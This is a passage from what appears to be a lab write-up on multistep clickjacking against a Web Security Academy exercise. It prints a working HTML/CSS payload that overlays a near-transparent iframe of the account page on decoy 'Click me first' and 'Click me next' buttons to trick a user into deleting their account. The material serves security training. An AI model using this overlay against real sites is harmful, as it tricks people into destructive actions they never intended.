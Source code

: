 
Here, clicking the “Click me next” button the user would be deleted:



![img](images/Multistep%20clickjacking/3.png)

But if you send this, the user does not get deleted, probably because we used width:100% and height:100%, so the payload depends on the screen resolution. I will use a small ifram size with fixed size of 500x600 px:

```
<head>
    <style>
        #target_website {
            position:relative;
            //width:100%;
            //height:100%;
            width:500px;
            height:600px;
            opacity:0.1;
            z-index:2;
            }
        #button1 {
            position:absolute;
            top:495px;
            left:55px;
        }
       #button2 {
            position:absolute;
            top:290px;
            left:200px;
        }
    </style>
</head>
<body>
    <button class="button" id="button1" type="submit">Click me first</button>
    <button class="button" id="button2" type="submit">Click me next</button>
    <iframe id="target_website" src="https://0a910056047f851e816330fc004400af.web-security-academy.net/my-account/">
```